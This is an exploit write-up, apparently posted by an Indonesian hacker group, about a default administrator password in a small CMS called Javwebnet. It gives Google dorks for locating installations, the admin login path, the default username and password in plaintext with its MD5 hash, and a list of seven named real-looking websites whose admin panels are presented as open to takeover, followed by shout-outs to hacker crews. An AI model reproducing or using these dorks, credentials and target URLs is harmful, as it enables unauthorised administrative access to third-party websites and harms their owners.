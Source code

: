 # Javwebnet-CMS-Default-Password-Vulnerability

*  Google Dork
	* `intext:"web design by javwebnet"`
	* `inurl:"admin/chace.php"`
	* `intitle:"Explore Your Brain ! \m/ Google sek ngaceng!"`
* Date                 : 05/01/2014
* Exploit Author       : BarrabravaZ
* Vendor Homepage      : http://www.javwebnet.com/
* Version              : 1.0
* Tested on            : Windows, Linux
* Surabaya Blackhat "Learn to be Better"

## Author will be not responsible for any damage
* Issue: Default Password Admin
* Risk level: High

> The remote attacker has the possibility to manage the website.

> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/admin/

* Username : `admin`
* Password : `17t17n25a` (md5: `3445c774b86384665a5315b30f8a6735`)

## Cro0t
> http://www.nomorsejagad.com/admin

> http://www.decalartworks.com/admin

> http://www.perdanajakarta.com/admin

> http://www.bangkitperdana.com/admin

> http://www.kecapborobudur.com/admin

> http://www.maulidaperdana.com/admin

> http://www.istanabajutidur.com/admin

## Thx To

* Meninbox wong ganteng unyu2 :D
* Katon --> Was here
* Zeeattacker aku njal0k oleh2 teko bangkok yo cok :v
* Bagfreakz aKa paijo painem hahaha
* Gandrunx --> master koding ,ajarin doong kakak..
* Ch0c0 terhumanisasi
* MyWisdom kakak paling cakep :*
* Array --> Mboh wong iki geje nick'e array wkwkwk
* Surabayag3tar guruku ('/\')
* Mr. DC bang jali :D
* Dem1t,Bejat,Morgue,OmJin..
* Siti Jubaidah,X'inject,R1O,Angel DOt ID...
* Haxor HuSsY, Hax0r W0w, Leet Hax0r,Kami Hax0r...
* SunDi3yansyah anak kos-kosan :v

## Developer
* SurabayaBlackhat
* Madleets
* IFC
* Hiddenc0de
* devilzc0de